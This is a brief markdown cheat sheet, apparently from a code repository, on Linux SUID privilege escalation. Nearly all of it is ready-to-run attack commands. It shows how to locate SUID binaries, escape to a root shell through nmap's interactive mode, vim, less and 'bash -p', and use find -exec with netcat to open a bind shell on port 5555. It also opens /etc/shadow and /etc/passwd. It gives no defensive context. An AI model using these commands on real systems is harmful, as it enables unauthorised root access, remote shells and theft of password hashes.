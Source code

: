 # Linux SUID Privilege Escalation

### Locating SUIDS
`find . -perm /4000 2>/dev/null`

### Exploiting SUIDs

nmap 2.02 - 5.21  
`nmap -V #version check`  

`nmap --interactive`  
`nmap> !sh`

find
`find <file> -exec <CMD> \;`  
Escalation to root shell  
`find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;`

Vim  
`vim /etc/shadow`  
`vim`  
`# Press ESC key`  
`:set shell=/bin/sh`  
`:shell`

bash  
`bash -p`

less  
`less /etc/passwd`  
`!/bin/sh`


